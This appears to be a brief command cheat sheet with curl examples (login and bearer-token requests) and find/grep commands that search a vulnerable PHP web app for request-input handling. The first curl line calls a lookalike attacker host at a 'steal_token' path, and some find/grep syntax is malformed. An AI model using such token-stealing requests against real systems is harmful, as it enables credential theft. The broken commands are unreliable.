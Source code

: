 
# Curl

```sh
curl -X GET "https://api.github.com.attacker.com/steal_token"
```

```sh 
curl -X POST -d "username=admin&password=1234" https://example.com/login
```

```sh 
curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"1234"}' https://example.com/api/login
```

```sh 
curl -H "Authorization: Bearer YOUR_TOKEN" https://example.com/api/data
```


# find & grep
```sh
find /var/www/vulwebapp1.2/ -type -f  -name "*.php"
```
```sh
find /var/www/vulwebapp1.2/ -type -f | grep ".php" | xargs grep '$_POST\$GET\$_REQUEST'
```
